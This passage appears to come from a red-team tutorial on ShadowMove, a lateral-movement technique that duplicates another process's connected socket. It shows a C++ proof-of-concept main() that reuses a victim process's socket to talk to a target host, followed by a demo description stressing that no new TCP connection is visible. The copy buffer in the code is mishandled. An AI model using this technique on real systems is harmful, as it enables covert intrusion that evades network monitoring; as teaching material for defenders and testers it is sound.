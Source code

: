 ```cpp
}


int main(int argc, char** argv) {
    WORD wVersionRequested;
    WSADATA wsaData;
    DWORD dwProcessId;
    LPSTR dstIP = NULL;
    SOCKET targetSocket;
    char buff[255] = { 0 };

    printf("\t\t\t-=[ ShadowMove Gateway PoC ]=-\n\n");

    // smgateway.exe [PID] [IP dst]
    /* It's just a PoC, we do not validate the args. But at least check if number of args is right X) */
    if (argc != 3) {
        printf("[!] Error: syntax is %s [PID] [IP dst]\n", argv[0]);
        exit(-1);
    }
    dwProcessId = strtoul(argv[1], NULL, 10);
    dstIP = (LPSTR)malloc(strlen(argv[2]) * (char)+1);
    memcpy(dstIP, argv[2], strlen(dstIP));


    // Classic
    wVersionRequested = MAKEWORD(2, 2);
    WSAStartup(wVersionRequested, &wsaData);

    targetSocket = findTargetSocket(dwProcessId, dstIP);
    send(targetSocket, "hello from shadowmove and reused socket!\n", strlen("hello from shadowmove and reused socket!\n"), 0);
    recv(targetSocket, buff, 255, 0);
    printf("\n[*] Message from target to shadowmove:\n\n %s\n", buff);
    return 0;
}
```

## Demo

Once we have compiled the above code, we can test the technique as it was described earlier in our [diagram](shadowmove-lateral-movement-by-stealing-duplicating-existing-connected-sockets.md#overview). Below highlighted are key aspects of the demo:

* In the top right corner, there's a target system `192.168.56.102` with `nc` listening on port `80`.
* In the top left corner, there's a compromised \(source\) system and `nc.exe` establishing a connection to target host `192.168.56.102:80`.
* In the bottom left corner, there's `ShadowMove.exe` running on the source system, which enumerates handles of the `nc.exe` running on the source system, finds a socket that is connected to `192.168.56.102:80` \(target system\), duplicates it and writes `hello from shadowmove and reused socket!` to it, which is then received on the target system \(top right\). 
* Target system \(top right\) writes back to the same socket `hello from target to shadowmove`, which is received by `shadowmove.exe` on the source system \(bottom left\).
* In the bottom right, we see a `ProcessHacker` that shows that at no point in time `shadowmove.exe` establishes no TCP connections.
